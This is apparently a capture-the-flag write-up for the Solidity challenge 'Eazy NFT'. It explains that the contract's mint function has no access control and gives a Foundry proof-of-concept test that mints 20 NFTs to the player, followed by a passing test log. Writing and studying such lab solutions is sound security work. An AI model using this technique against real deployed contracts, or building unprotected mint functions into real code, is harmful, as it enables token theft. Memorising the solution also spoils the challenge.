 # Challenge - Eazy NFT

NFT market was slowly booming and Tony's friends were showing off their NFT holdings. Tony had finally whitelisted a NFT project, he's anxiously waiting for minting his first NFT.

## Objective of CTF

Owns 20 NFTs, with IDs from 0 to 19.

## Vulnerability Analysis

Mint 20 NFTs directly to the player address.

### Attack steps:

1. Mint 20 NFT by calling the `mint` function in `ET`.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {ET, Challenge} from "src/EazyNFT.sol";

contract EasyNFTTest is Test {
    address player = makeAddr("player");
    Challenge challenge;
    ET et;

    function setUp() public {
        challenge = new Challenge(player);
        et = challenge.et();
    }

    function testChallengeIsSolved() external {
        vm.startPrank(player);
        for (uint256 i; i < 20; ++i) {
            et.mint(player, i);
        }
        vm.stopPrank();

        challenge.solve();
        assertTrue(challenge.isSolved());
    }
}
```

### Test Result

```
Ran 1 test for test/EazyNFT.t.sol:EasyNFTTest
[PASS] testChallengeIsSolved() (gas: 427056)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 903.33µs (308.63µs CPU time)

Ran 1 test suite in 229.46ms (903.33µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

